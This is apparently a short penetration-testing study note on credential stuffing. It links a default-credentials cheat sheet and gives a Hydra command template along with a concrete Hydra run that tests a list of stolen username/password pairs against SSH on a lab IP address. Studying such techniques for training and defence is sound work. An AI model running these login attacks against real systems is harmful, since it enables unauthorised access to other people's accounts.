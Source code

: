 Default creds cheat sheet:
https://github.com/ihebski/DefaultCreds-cheat-sheet

Credential stuffing: when passwords are leaked, they will be sold to attackers. Attackers will test these stolen credentials in hundreds of websites. This is credential stuffing.

Credential Stuffing - Hydra Syntax
```shell-session
hydra -C <user_pass.list> <protocol>://<IP>
```

Credential Stuffing - Hydra
```shell-session
hydra -C user_pass.list ssh://10.129.42.197
```

